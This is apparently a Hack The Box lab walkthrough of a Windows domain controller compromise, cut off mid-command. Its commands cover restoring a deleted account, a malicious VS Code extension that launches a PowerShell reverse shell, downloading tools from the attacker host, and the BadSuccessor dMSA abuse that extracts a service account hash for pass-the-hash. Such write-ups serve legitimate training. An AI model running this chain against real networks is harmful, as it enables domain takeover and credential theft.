




## HTB Checkpoint — Full Walkthrough & Writeup

**Checkpoint** is a medium-difficulty Windows Active Directory machine from **Hack The Box Season 11**. This detailed walkthrough covers the complete attack chain — from initial enumeration through full domain compromise — on a **Windows Server 2025** domain controller vulnerable to the **BadSuccessor** privilege escalation attack ([CVE-2025-53779](https://nvd.nist.gov/vuln/detail/CVE-2025-53779)).

The exploit path chains together several real-world techniques: **Active Directory object restoration**, **supply chain compromise via a malicious VS Code extension (.vsix)**, **delegated Managed Service Account (dMSA) abuse** for lateral movement, and **memory forensics with Volatility** for credential extraction. Tools used include `netexec`, `bloodyAD`, `BloodHound`, `Rubeus`, `Impacket`, and `Volatility 3`.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2025                    |
| **Difficulty**       | Medium                                 |
| **Domain**           | `checkpoint.htb`                       |
| **DC Hostname**      | `DC01`                                 |
| **Starting Credentials** | `alex.turner` / `Checkpoint2024!`  |

As is common in real-life pentests, this machine provides initial credentials to simulate an assumed-breach scenario.

## Attack Chain Overview

The following diagram illustrates the complete attack path from initial access to full domain compromise:



---

## Reconnaissance

### Port Scanning

An initial `nmap` scan quickly reveals that the target is a domain controller, as indicated by the presence of standard Active Directory services.

??? info "What is nmap?"
    **nmap** (Network Mapper) is the industry-standard open-source tool for network discovery and security auditing. The flags used here are:

    - `-sC` — Run default NSE (Nmap Scripting Engine) scripts for service enumeration
    - `-sV` — Probe open ports to determine service/version info
    - `-T4` — Aggressive timing template for faster scans
    - `-oA` — Output results in all formats (normal, XML, and greppable)

```shell
nmap 10.129.212.6
```

```
Nmap scan report for 10.129.212.6
Host is up (0.45s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 42.64 seconds
```

| Port       | Service                     | Significance                                  |
| ---------- | --------------------------- | --------------------------------------------- |
| 53/tcp     | DNS                         | Domain Name resolution for the AD domain      |
| 88/tcp     | Kerberos                    | Authentication protocol — confirms this is a DC|
| 135/tcp    | MS-RPC                      | Remote Procedure Call endpoint mapper          |
| 139/tcp    | NetBIOS                     | Legacy Windows networking                      |
| 389/tcp    | LDAP                        | Lightweight Directory Access Protocol          |
| 445/tcp    | SMB                         | File sharing and AD communication              |
| 464/tcp    | Kpasswd                     | Kerberos password change service               |
| 593/tcp    | RPC over HTTP               | RPC endpoint over HTTP                         |
| 636/tcp    | LDAPS                       | LDAP over TLS/SSL                              |
| 3268/tcp   | Global Catalog (LDAP)       | Forest-wide LDAP search                        |
| 3269/tcp   | Global Catalog (LDAPS)      | Forest-wide LDAP over SSL                      |
| 5985/tcp   | WinRM                       | Windows Remote Management (PowerShell Remoting)|

A more detailed scan with service version detection confirms the operating system and domain name:

```shell
nmap -sC -sV -T4 -oA checkpoint_ 10.129.212.6
```

```
Nmap scan report for dc01 (10.129.212.6)
Host is up (0.17s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-06-15 18:26:14Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-06-15T18:26:35
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 1h59m42s

Nmap done: 1 IP address (1 host up) scanned in 92.46 seconds
```

Key observations from the service scan:

- **Domain**: `checkpoint.htb` — this will be used for DNS resolution
- **SMB Signing**: Enabled and **required** — this means relay attacks (e.g., ntlmrelayx) will not work
- **Clock Skew**: `1h59m42s` — Kerberos requires clocks to be within 5 minutes; we will need to sync our time

### SMB Share Enumeration

Using `netexec` with the provided credentials to enumerate SMB shares. The `DevDrop` share immediately stands out — its description indicates it hosts approved `.vsix` packages for VS Code engine `1.118.0`.

??? info "What is netexec?"
    **netexec** (formerly CrackMapExec) is a post-exploitation tool for pentesting Windows/AD environments. The `--shares` flag enumerates all accessible SMB shares and displays the current user's permissions on each.

```shell
netexec smb 10.129.212.6 -u 'alex.turner' -p 'Checkpoint2024!' --shares
```

```
SMB         10.129.212.6   445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.212.6   445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
SMB         10.129.212.6   445    DC01             [*] Enumerated shares
SMB         10.129.212.6   445    DC01             Share           Permissions     Remark
SMB         10.129.212.6   445    DC01             -----           -----------     ------
SMB         10.129.212.6   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.212.6   445    DC01             C$                              Default share
SMB         10.129.212.6   445    DC01             DevDrop         READ            VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.212.6   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.212.6   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.212.6   445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.212.6   445    DC01             VMBackups                       
```

Notable shares:

- **DevDrop** — A VS Code extension repository with `READ` access. This suggests an automated deployment pipeline.
- **VMBackups** — No permissions currently, but may contain valuable data if accessed later.

Connecting to the `DevDrop` share via `smbclient` confirms it is currently empty:

```shell
smbclient '//10.129.212.6/DevDrop' -U 'checkpoint.htb/alex.turner%Checkpoint2024!'
```

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 17:45:01 2026
  ..                                  D        0  Sat May  9 10:42:27 2026

		10459391 blocks of size 4096. 2459736 blocks available
```

### User Enumeration

Enumerating domain users via LDAP reveals 17 accounts, including a service account `svc_deploy` which is particularly interesting for later exploitation:

```shell
netexec ldap 10.129.212.6 -u 'alex.turner' -p 'Checkpoint2024!' --users \
  | awk '/DC01/ && !/\[\*\]/ && !/\[\+\]/ && !/-Username-/ {print $5}'
```

```
Administrator
Guest
krbtgt
alex.turner
ryan.brooks
svc_deploy
james.harper
sarah.mitchell
emily.carter
david.reynolds
jessica.coleman
lauren.flores
michael.torres
kevin.patterson
brian.jenkins
megan.perry
max.palmer
```

### Kerberos Authentication Preparation

Before performing any Kerberos-based operations, three prerequisites must be configured on the attacker machine:

**1. Generate `krb5.conf`** — `netexec` can auto-generate the Kerberos configuration file containing the realm and KDC information:

```shell
netexec smb 10.129.212.6 -u 'alex.turner' -p 'Checkpoint2024!' --generate-krb5-file krb5.conf
```

```
SMB         10.129.212.6   445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.212.6   445    DC01             [+] krb5 conf saved to: krb5.conf
SMB         10.129.212.6   445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
SMB         10.129.212.6   445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024!
```

**2. Synchronize system time** — Kerberos requires clocks to be within a 5-minute tolerance (the default `MaxClockSkew` value). The `ntpdate` utility synchronizes our system clock with the target DC:

```shell
sudo ntpdate 10.129.212.6
```

```
2026-06-14 22:05:58.032291 (-0400) +1290.945871 +/- 0.082370 10.129.212.6 s1 no-leap
CLOCK: time stepped by 1290.945871
```

**3. Update `/etc/hosts`** — Add the DC's hostname and domain entries for proper name resolution:

```shell
echo "10.129.212.6  dc01 dc01.checkpoint.htb checkpoint.htb" | sudo tee -a /etc/hosts
```

---

## BloodHound Enumeration

### Data Collection

[BloodHound](https://github.com/BloodHoundAD/BloodHound) is an Active Directory reconnaissance tool that uses graph theory to reveal hidden and often unintended relationships within an AD environment. It identifies attack paths that would otherwise be difficult or impossible to discover manually.

The initial attempt with `bloodhound-ce-python` failed because it resolved the DC to its IPv6 address (`dead:beef::...`), which was unreachable from the VPN tunnel:

```shell
bloodhound-ce-python -c All --dns-tcp -d checkpoint.htb -ns 10.129.212.6 \
  -dc dc01.checkpoint.htb -u 'alex.turner' -p 'Checkpoint2024!' --use-ldaps --zip
```

```
INFO: Connecting to LDAP server: dc01.checkpoint.htb
INFO: Testing resolved hostname connectivity dead:beef::c966:3fc1:ac79:48be
...
ldap3.core.exceptions.LDAPSocketOpenError: invalid server address
```

As an alternative, `bloodyAD` — a versatile Active Directory privilege escalation framework — successfully collected all required data:

```shell
bloodyAD -d checkpoint.htb --host dc01.checkpoint.htb -u alex.turner -p Checkpoint2024! get bloodhound
```

```
[+] Connecting to LDAP server
[+] Connected to LDAP serrver
Dumping schema: 2it [00:00,  2.35it/s]
Generating lookuptable: 107it [00:01, 65.41it/s]
Dumping SDs: 100%|████████████████████████████████████████| 111/111 [00:26<00:00,  4.21it/s]
Dumping domains: 100%|████████████████████████████████████████| 1/1 [00:00<00:00,  1.81it/s]
Dumping users: 100%|█████████████████████████████████████████| 18/18 [00:00<00:00, 95.39it/s]
Dumping computers: 100%|██████████████████████████████████████| 1/1 [00:00<00:00,  3.16it/s]
Dumping groups: 100%|████████████████████████████████████████| 58/58 [00:00<00:00, 174.53it/s]
Dumping GPOs: 100%|██████████████████████████████████████████| 2/2 [00:00<00:00,  8.16it/s]
Dumping OUs: 100%|███████████████████████████████████████████| 8/8 [00:00<00:00, 29.70it/s]
Dumping Containers: 100%|████████████████████████████████████| 19/19 [00:00<00:00, 76.36it/s]
[+] Bloodhound data saved to 20260615T042629_Bloodhound.zip
[+] Found 0 trusts
```

### Analysis

After importing the data into BloodHound, two critical ACL (Access Control List) relationships emerge that form the backbone of the attack chain:

**1.** `alex.turner` has **GenericWrite** permissions over the `MARK.DAVIES` user object — this means we can modify attributes on Mark's account.



**2.** `ryan.brooks` has **GenericWrite** permissions over the `SVC_DEPLOY@CHECKPOINT.HTB` service account — meaning if we can compromise Ryan, we can manipulate the service account.



??? info "What is GenericWrite?"
    **GenericWrite** is an Active Directory permission that allows a principal to write to any non-protected attribute on the target object. This is extremely powerful because it can be abused to:

    - Set a **Service Principal Name (SPN)** for Kerberoasting
    - Modify **logon scripts** for code execution
    - Overwrite the **msDS-KeyCredentialLink** attribute for Shadow Credentials attacks
    - Change **group memberships** (if applied to group objects)

---

## Lateral Movement — Restoring Mark Davies

### Discovering a Deleted AD Object

Using `bloodyAD` to enumerate writable objects for `alex.turner`, a deleted user account for **Mark Davies** was identified in the Active Directory `Deleted Objects` container. In AD, when an object is deleted, it is not immediately purged — it is moved to this container and can potentially be restored within the tombstone lifetime (default: 180 days).

```shell
bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get writable
```

```
distinguishedName: CN=Deleted Objects,DC=checkpoint,DC=htb
DACL: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: OU=Employees,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: CN=Alex Turner,OU=Employees,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName: DC=checkpoint.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.checkpoint.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=checkpoint,DC=htb
permission: CREATE_CHILD
```

The key finding here is that `alex.turner` has `WRITE` access to both the `Deleted Objects` container and Mark Davies' deleted object within it (identified by the `\0ADEL:` suffix and GUID).

### Restoring the Account

Since we have write access, the account can be restored to its original OU using `bloodyAD`'s `set restore` command:

```shell
bloodyad -d checkpoint.htb --host dc01.checkpoint.htb -u alex.turner -p 'Checkpoint2024!' \
  set restore 'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb'
```

```
[+] CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb has been restored successfully under CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb
```

### Password Reuse

A password spray using `alex.turner`'s known password against the restored account confirms password reuse — a common finding in real-world environments:

```shell
netexec smb 10.129.212.6 -u 'Mark.Davies' -p 'Checkpoint2024!'
```

```
SMB         10.129.212.6   445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.212.6   445    DC01             [+] checkpoint.htb\Mark.Davies:Checkpoint2024!
```

Re-enumerating SMB shares with Mark's credentials reveals an important escalation — **WRITE** access to the `DevDrop` share:

```shell
netexec smb 10.129.212.6 -u 'Mark.Davies' -p 'Checkpoint2024!' --shares
```

```
SMB         10.129.212.6   445    DC01             Share           Permissions     Remark
SMB         10.129.212.6   445    DC01             -----           -----------     ------
SMB         10.129.212.6   445    DC01             DevDrop         READ,WRITE      VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.212.6   445    DC01             VMBackups                      
```

---

## Initial Access — Malicious VS Code Extension

With write access to the `DevDrop` share, the next step is to craft a malicious VS Code extension (`.vsix` file). The share description explicitly states it hosts approved `.vsix` packages for VS Code engine `1.118.0`, strongly suggesting an automated process periodically installs extensions from this location — a classic supply chain attack vector.

### Crafting the Payload

A `.vsix` file is simply a ZIP archive following the [VSIX Packaging Format](https://learn.microsoft.com/en-us/visualstudio/extensibility/anatomy-of-a-vsix-package). The malicious extension will execute a PowerShell reverse shell immediately upon activation.

**1. Create the directory structure:**

```shell
mkdir evil-ext && cd evil-ext
mkdir -p extension
```

**2. Create `extension/package.json`** — the extension manifest:

```json
{
  "name": "devtools-helper",
  "displayName": "DevTools Helper",
  "version": "1.0.0",
  "engines": {"vscode": "^1.118.0"},
  "activationEvents": ["*"],
  "main": "./extension.js",
  "contributes": {}
}
```

Key fields:

- `engines.vscode` — Must match the target's VS Code version (`^1.118.0`)
- `activationEvents: ["*"]` — Activates the extension on **any** event, ensuring immediate execution

**3. Create `extension/extension.js`** — the payload:

```js
const cp = require('child_process');
exports.activate = function() {
    cp.exec('powershell -e <BASE64_ENCODED_REVERSE_SHELL>');
}
exports.deactivate = function() {}
```

The `activate()` function fires when VS Code loads the extension and executes the encoded PowerShell reverse shell via `child_process.exec()`.

**4. Create `[Content_Types].xml`** — required metadata for the VSIX package format that tells the installer how to process each file type within the archive.

**5. Package the extension:**

```shell
zip -r ../evil.vsix [Content_Types].xml extension/
```

### Delivering the Payload

Upload the malicious `.vsix` to the `DevDrop` share using Mark's credentials:

```shell
smbclient '//10.129.212.6/DevDrop' -U 'checkpoint.htb/Mark.Davies%Checkpoint2024!'
```

```
smb: \> put evil.vsix
putting file evil.vsix as \evil.vsix (4.2 kB/s) (average 4.2 kB/s)
```

### Catching the Reverse Shell

Start a Netcat listener and wait for the automated installation process to trigger the payload:

```shell
nc -lvnp 4444
```

After a few minutes, `ryan.brooks` automatically installs the extension, triggering the reverse shell:

```
listening on [any] 4444 ...
connect to [10.10.14.33] from (UNKNOWN) [10.129.212.6] 61813

PS C:\Program Files\Microsoft VS Code>
```

We now have a shell as `ryan.brooks`. As discovered in BloodHound, this user has **GenericWrite** over `SVC_DEPLOY`.

---

## Privilege Escalation — BadSuccessor (CVE-2025-53779)

### Vulnerability Overview

!!! danger "CVE-2025-53779 — BadSuccessor"
    | Property        | Value                                                     |
    | --------------- | --------------------------------------------------------- |
    | **CVE ID**      | [CVE-2025-53779](https://nvd.nist.gov/vuln/detail/CVE-2025-53779) |
    | **CVSS Score**  | 7.2 (High)                                                |
    | **Affected**    | Windows Server 2025 Domain Controllers                    |
    | **Discovered By** | [Akamai Security Research](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) |
    | **Patched**     | August 2025 Patch Tuesday                                 |

    **BadSuccessor** exploits a design flaw in Windows Server 2025's **delegated Managed Service Account (dMSA)** migration feature. By manipulating the `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` LDAP attributes on a dMSA object, an attacker can trick the Key Distribution Center (KDC) into believing the dMSA is a legitimate "successor" to any high-privileged account in the domain — including Domain Admins or the `KRBTGT` account.

    **Prerequisites:**

    - At least one Windows Server 2025 Domain Controller in the environment
    - "Create Child" or write permissions on an Organizational Unit (OU)

    **Impact:** Full domain compromise — the attacker can impersonate any security principal in the domain.

    **References:**

    - [Akamai — Abusing dMSA for Privilege Escalation](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
    - [Semperis — BadSuccessor Analysis](https://www.semperis.com/blog/badsuccessor/)
    - [Microsoft Security Response Center](https://msrc.microsoft.com/)

### Uploading Tools

From the reverse shell as `ryan.brooks`, transfer the required tooling from the attacker machine. We need three tools:

- **Get-BadSuccessorOUPermissions.ps1** — Enumerates OUs where the current user has write permissions
- **SharpSuccessor.exe** — Automates the BadSuccessor attack (creates the malicious dMSA)
- **Rubeus.exe** — Kerberos interaction tool for ticket extraction

**1. Start an HTTP server on the attacker machine:**

```shell
python3 -m http.server 80808
```

**2. Download tools on the target via PowerShell:**

```powershell
wget "http://10.10.14.33/Get-BadSuccessorOUPermissions.ps1" -OutFile "C:\Users\ryan.brooks\Desktop\Get-BadSuccessorOUPermissions.ps1"
wget "http://10.10.14.33/SharpSuccessor.exe" -OutFile "C:\Users\ryan.brooks\Desktop\SharpSuccessor.exe"
wget "http://10.10.14.33/Rubeus.exe" -OutFile "C:\Users\ryan.brooks\Desktop\Rubeus.exe"
```

### Identifying Vulnerable OUs

The BadSuccessor attack requires write permissions on an Organizational Unit to create the malicious dMSA object. Running the enumeration script confirms that `ryan.brooks` has write access to the `OU=DMSAHolder` OU:

```powershell
PS C:\Users\ryan.brooks\Desktop> .\Get-BadSuccessorOUPermissions.ps1

Identity               OUs                                 
--------               ---                                 
CHECKPOINT\ryan.brooks {OU=DMSAHolder,DC=checkpoint,DC=htb}
CHECKPOINT\alex.turner {OU=Employees,DC=checkpoint,DC=htb}
```

This can also be verified remotely using `netexec`'s `badsuccessor` module:

```shell
netexec ldap 10.129.212.6 -u 'Mark.Davies' -p 'Checkpoint2024!' -M badsuccessor
```

```
BADSUCCE... 10.129.212.6    389    DC01             [+] Found domain controller with operating system Windows Server 2025: 10.129.212.6 (DC01.checkpoint.htb)
BADSUCCE... 10.129.212.6    389    DC01             [+] Found 2 results
BADSUCCE... 10.129.212.6    389    DC01             alex.turner (...1101), OU=Employees,DC=checkpoint,DC=htb
BADSUCCE... 10.129.212.6    389    DC01             ryan.brooks (...1103), OU=DMSAHolder,DC=checkpoint,DC=htb
```

### Extracting a TGT with Rubeus

To perform the BadSuccessor attack from the attacker machine, we first need a valid Kerberos TGT for `ryan.brooks`. The `tgtdeleg` trick in Rubeus exploits the Kerberos GSS-API to extract a usable TGT from the current logon session without needing the user's password:

```powershell
PS C:\Users\Ryan.Brooks\Desktop> .\Rubeus.exe tgtdeleg /nowrap
```

??? info "What does `tgtdeleg` do?"
    The `tgtdeleg` trick requests a service ticket using **GSS-API** with the **delegation flag** set. This forces the KDC to include a forwarded TGT inside the AP-REQ. Rubeus then extracts this TGT from the authenticator. The `/nowrap` flag outputs the base64 ticket on a single line for easy copy-paste.

```
[*] Action: Request Fake Delegation TGT (current user)
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] base64(ticket.kirbi):

      doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBM...
```

### Converting the Ticket

Transfer the base64-encoded kirbi to the attacker machine and convert it to the `ccache` format used by Impacket and other Linux-based Kerberos tools:

**Step 1 — Decode the base64 kirbi to a binary `.kirbi` file:**

```shell
cat ryan.b64_kirbi | base64 -d > ryan.kirbi
```

**Step 2 — Convert the `.kirbi` to `.ccache` format using Impacket:**

```shell
impacket-ticketConverter ryan.kirbi ryan.ccache
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

**Step 3 — Set the Kerberos credential cache environment variable:**

```shell
export KRB5CCNAME=ryan.ccache
```

### Executing the BadSuccessor Attack

Using `bloodyAD` with Ryan's Kerberos ticket, create a malicious dMSA object in the `DMSAHolder` OU that impersonates the `SVC_DEPLOY` service account:

```shell
bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u ryan.brooks \
  -k ccache=/home/kali/htb/checkpoint/ryan.ccache add badSuccessor evil-dmsa \
  -t 'CN=SVC_DEPLOY,OU=SERVICEACCOUNTS,DC=CHECKPOINT,DC=HTB' \
  --ou 'OU=DMSAHolder,DC=checkpoint,DC=htb'
```

```
[+] Creating DMSA evil-dmsa$ in OU=DMSAHolder,DC=checkpoint,DC=htb
[+] Impersonating: CN=SVC_DEPLOY,OU=SERVICEACCOUNTS,DC=CHECKPOINT,DC=HTB

Realm        : CHECKPOINT.HTB
Sname        : krbtgt/CHECKPOINT.HTB
UserName     : evil-dmsa$
UserRealm    : checkpoint.htb
Flags        : forwardable, forwarded, enc-pa-rep, pre-authent, renewable
[+] dMSA TGT stored in ccache file evil-dmsa_7T.ccache

dMSA current keys found in TGS:
AES256: 892b8709546ef56d589509a822d51b73201ac40872d5835a82f87836e67a50bd
AES128: 0d8296036da442d89c17df2338f4cd3f
RC4: e6bbfced013b7b06326f9e4b372c6e4c

dMSA previous keys found in TGS (including keys of preceding managed accounts):
RC4: e16081eb077aca74bdbf8af12af43ac9
```

The critical output is in the **`previous keys`** section. Because the KDC believes `evil-dmsa$` is the successor to `SVC_DEPLOY`, it includes `SVC_DEPLOY`'s credential material in the TGS response:

| Key Type | Hash | Belongs To |
|----------|------|------------|
| RC4 (previous) | `e16081eb077aca74bdbf8af12af43ac9` | **svc_deploy** |

### Authenticating as svc_deploy

Using the extracted RC4 (NTLM) hash, authenticate as `svc_deploy` via Pass-the-Hash:

```shell
netexec smb 10.129.212.6 -u svc_deploy -H e16081eb077aca74bdbf8af12af43ac9
```

```
SMB         10.129.212.6    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.212.6    445    DC01             [+] checkpoint.htb\svc_deploy:e16081eb077aca74bdbf8af12af43ac9 
```

Authentication successful. The `svc_deploy` account now gives us access to previously inaccessible resources.

---

## Post-Exploitation — Memory Forensics

### Accessing the VMBackups Share

With `svc_deploy` credentials, we can now access the previously restricted `VMBackups` share. Connecting via `smbclient` with the Pass-the-Hash reveals virtual machine backup files:

```shell
smbclient //10.129.212.6/VMBackups \
  -U 'checkpoint.htb/svc_deploy%e16081eb077aca74bdbf8af12af43ac9' --pw-nt-hash
```

```
smb: \NightlyBackup_2024-11-01\memory forensics\> ls
  .                                   D        0  Sat May  9 13:12:44 2026
  ..                                  D        0  Sat May  9 12:54:19 2026
  Windows Server 2019-000001.vmdk      A 106496000  Sat May  9 22:45:22 2026
  Windows Server 2019-Snapshot1.vmem      A 2147483648  Sat May  9 22:40:36 2026
  Windows Server 2019-Snapshot1.vmsn      A 138164859  Sat May  9 22:40:36 2026
  Windows Server 2019.nvram           A   270840  Sat May  9 22:39:00 2026
  Windows Server 2019.vmdk            A 10199695360  Sat May  9 22:39:00 2026
  Windows Server 2019.vmsd            A      502  Sat May  9 22:39:00 2026
  Windows Server 2019.vmx             A     2749  Sat May  9 22:45:22 2026
  Windows Server 2019.vmxf            A      274  Sat May  9 22:22:44 2026

		10459391 blocks of size 4096. 2477478 blocks available
```

The most valuable file here is the **`.vmem`** file — a VMware memory snapshot (~2 GB). This contains a raw dump of the virtual machine's RAM at the time the snapshot was taken, which means it likely contains cached credentials.

### Downloading the Memory Dump

Download the `.vmem` file to the attacker machine. This is a large file (~2 GB), so the transfer will take several minutes:

```shell
mkdir -p loot/vmbackup
smbclient //10.129.212.6/VMBackups \
  -U 'checkpoint.htb/svc_deploy%e16081eb077aca74bdbf8af12af43ac9' --pw-nt-hash \
